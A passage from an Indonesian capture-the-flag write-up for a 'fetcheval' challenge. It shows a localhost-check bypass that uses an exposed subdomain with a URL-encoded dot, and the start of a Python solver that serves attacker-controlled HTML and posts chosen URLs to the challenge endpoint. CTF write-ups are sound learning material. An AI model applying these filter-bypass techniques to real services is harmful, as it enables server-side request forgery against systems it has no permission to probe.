 cara kedua adalah dengan membuat domain sendiri, disini saya memakai expose https://expose.dev/ untuk membuat subdomain yang diawali dengan localhost

Domain saya yang awalnya seperti ini.

```
http://localhost.eus-1.sharedwithexpose.com
```

Kita rubah titiknya menjadi url encoded.

```
http://localhost%2eus-1.sharedwithexpose.com
```

Berikut solver yang saya gunakan.

```python
import threading
import requests
import re
from html import unescape
from readline import redisplay

from http.server import SimpleHTTPRequestHandler
import socketserver
from pwn import log, context
from http import HTTPStatus

context.log_level = "INFO"
URL = "https://fetcheval.hackthesystem.pro/"

def make_server(text_html):
    class Handler(SimpleHTTPRequestHandler):
        def do_GET(self):
            self.send_html(text_html)
            self.end_headers()

        def send_html(self, string):
            self.send_response(HTTPStatus.OK)
            self.send_header('Content-type', 'text/html')
            self.send_header('Content-Length', str(len(string)))
            self.send_header('Last-Modified', self.date_time_string())
            self.end_headers()
            self.wfile.write(string.encode())
    return Handler

def thread(fn):
    def run(*k, **kw):
        t = threading.Thread(target=fn, args=k, kwargs=kw)
        t.start()
        return t
    return run

@thread
def serve(host, port, text):
    address = (host, port)
    socketserver.TCPServer.allow_reuse_address = True
    with socketserver.TCPServer(address, make_server(text)) as httpd:
        log.info(f"serve @ http://localhost:{address[1]}")
        httpd.handle_request()

def req(x, url=URL):
    res = requests.post(url, data={
        "url": x,
    })
    return res.text
```